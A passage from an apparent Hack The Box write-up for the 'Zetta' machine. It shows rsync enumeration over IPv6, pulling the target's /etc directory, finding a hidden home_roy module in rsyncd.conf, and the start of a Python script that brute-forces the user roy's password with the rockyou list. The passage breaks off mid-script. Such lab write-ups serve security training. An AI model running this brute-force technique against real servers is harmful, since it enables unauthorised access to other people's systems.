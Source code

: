 {% endhighlight %}

<p>Oh ho! We have an rsync service available on IPv6 where it was not on IPv4. What happens if we poke around there.</p>

<p>
<img src="{{ '/assets/htb-zetta/user-rsyncnmap.PNG' | relative_url }}">
</p>

<p>This is looking more promising, excellent. Unfortunately trying to enumerate all of the listed modules leads us to access denied. At this point I started scratching my head a bit until I realized that the modules were all the standard directories in a Unix machine, however /etc was missing... Hum, let's see if that is just a coincidence.</p>

<p>
<img src="{{ '/assets/htb-zetta/user-rsyncetc.PNG' | relative_url }}">
</p>

<p>Bingo! Ok let's see if we can grab a copy of /etc and sync it locally for further analysis.</p>

<p>
<img src="{{ '/assets/htb-zetta/user-rsyncetcsync.PNG' | relative_url }}">
</p>

<p>Once we have the files locally we take a look at the more obvious spots - passwd, ftpusers, backups, but it is only once we look at the rsyncd.conf file do we really notice something interesting.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Zetta/etc# cat rsyncd.conf | tail -n 10
[home_roy]
	path = /home/roy
	read only = no
	# Authenticate user for security reasons.
	uid = roy
	gid = roy
	auth users = roy
	secrets file = /etc/rsyncd.secrets
	# Hide home module so that no one tries to access it.
	list = false
{% endhighlight %}

<p>Another hidden directory! We also have the user provided on top of it, excellent. Unfortunately, we don't have the password and trying to access /home/roy results in access denied.</p>

<p>With the username however, let's see if we can script up a simple bruteforce to iterate through the rockyou password list. Who knows, we might get lucky.</p>

{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-

import sys
import os
import subprocess

def bruteforce(password):
    os.environ["RSYNC_PASSWORD"] = password
    try:
        p1 = subprocess.run('rsync -vazh rsync://roy@[dead:beef::250:56ff:fea2:4d93]/home_roy --port 8730',check=True, shell=True,stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
        if p1.returncode == 0:
            print("PASSWORD Found! roy/" + password)